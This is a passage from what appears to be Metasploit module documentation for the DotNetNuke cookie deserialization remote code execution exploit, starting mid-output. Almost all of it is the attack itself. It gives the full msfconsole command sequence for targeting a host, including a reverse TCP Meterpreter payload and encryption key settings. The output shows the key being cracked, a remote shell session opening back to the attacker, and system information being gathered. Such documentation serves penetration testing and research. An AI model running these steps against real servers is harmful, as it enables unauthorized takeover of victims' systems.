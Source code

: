   ```
  [+] Custom error page detected.
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49957) at 2019-07-10 14:02:09 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```
### v9.1.1
  Here's showing the expected output
  
  ```
  msf > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8084
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE Amop-0Et1fM_
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-2
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [!] DNN Version Found: v9.0.1 - v9.1.1 - May require ENCRYPTED
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] 192.168.31.131:8084 - The target appears to be vulnerable.
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 648742.110 keys/s ...... 68.69% of keyspace complete.
  [+] KEY Found: B2ABB4BB
  [+] IV Found: 11A4D8BE
  [*] Total number of Keys tried: 29568463
  [*] Time to crack: 45.578 seconds
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49970) at 2019-07-10 14:46:38 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
